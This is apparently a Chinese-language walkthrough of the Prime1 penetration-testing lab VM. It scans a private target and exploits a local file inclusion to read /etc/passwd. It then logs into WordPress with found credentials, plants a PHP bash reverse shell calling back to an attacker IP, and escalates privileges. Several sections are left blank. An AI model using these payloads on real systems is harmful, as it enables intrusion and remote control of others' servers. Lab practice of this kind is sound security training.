


# 靶场记录Prime1

[TOC]

## 确认目标IP

## nikto扫描

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ sudo nikto -h 192.168.50.130 > nikto.txt
[sudo] password for kali: 
```


### 搜集信息

1. 安装了Akismet插件
2. wordpress版本WordPress/5.2.2
3. 上传目录信息泄露，使用的apache版本很旧
4. 登录口

```
http://192.168.50.130/icons/README
http://192.168.50.130/wordpress/wp-content/plugins/akismet/readme.txt
http://192.168.50.130/wordpress/wp-links-opml.php
http://192.168.50.130/wordpress/wp-content/uploads/
http://192.168.50.130/wordpress/wp-login.php
http://192.168.50.130/wordpress/wp-login.php?action=register
```


## dirb目录爆破

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ dirb http://192.168.50.130 -o dirb.txt
```


### 信息搜集整理

1. 泄露非常规目录http://192.168.50.130/dev

   

2. 还泄露了一些常规目录路径，应该放在以后看。

   

## dirb文件爆破

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ dirb http://192.168.50.130  -X .zip,.txt -o dirbfile.txt
```


从提示中直到接下来我们要对php做模糊测试，因此接下来的操作转变为，搜索所有可访问的PHP。

## 搜索php

1. 已知http://192.168.50.130/wordpress/wp-admin/includes/目录下有很多php文件，信息来自于nikto
2. http://192.168.50.130/image.php，信息来自于dirb
3. http://192.168.50.130/index.php，信息来自于dirb


## WFuzz寻找php参数

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136  http://192.168.50.130/index.php?FUZZ=xxxx
```


```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136  http://192.168.50.130/index.php?FUZZ=xxxx
```


### 结合前面提示


尝试访问，根据提示说明方向正确。


## 深入挖掘secrettier360

猜测是本地文件包含，尝试访问，果然不出所料。

http://192.168.50.130/image.php?secrettier360=../../../../../../../../etc/passwd



尝试读取shadow失败，说明权限不够。因此改变思路，读取wordpress敏感文件尝试登录后台，利用web后台漏洞。但是在次细心浏览，则会发现

作者给出的提示。


尝试登录wordpress失败，运气真够衰的。

| account | password          | result |
| ------- | ----------------- | ------ |
| saket   | follow_the_ippsec | 失败   |
| victor  | follow_the_ippsec | 成功   |
| admin   | follow_the_ippsec | 失败   |


## WP后台渗透

1. 测试是否能够上传自定义插件，经过测试不行
2. 测试Appearance是否有php文件能够修改

经过尝试在themes中TwentyNineteen中有secret.php能够修改，准备一句话php木马。

```php
<?php exec("/bin/bash -c 'bash -i >&  /dev/tcp/192.168.50.129/443 0>&1'")?>
```


```
192.168.50.130/wordpress/wp-content/themes/twentynineteen/secret.php
```


## 提升权限

1. msf搜索
2. 本地编译，上传提权失败
3. 远程上传提升权限陈工




## 获取交互shell

1. dpkg -i 或者python --version发现安装了python2.7
2. `python -c "import pty;pty.spawn('/bin/bash')"`开启一个交互更好的shell
3. 

## 胜利结算


### 总结

### wpscan

在发现是wordpress时就应该想到使用wpscan。比如在从/home/saket/password.txt获得密码以后，由于发现saket无法登录wordpress，除了想我一样反复尝试，还可以使用wordpress获得用户的账户。

```
┌──(kali㉿kali)-[~]
└─$ sudo wpscan --url http://192.168.50.130/wordpress -e u
```


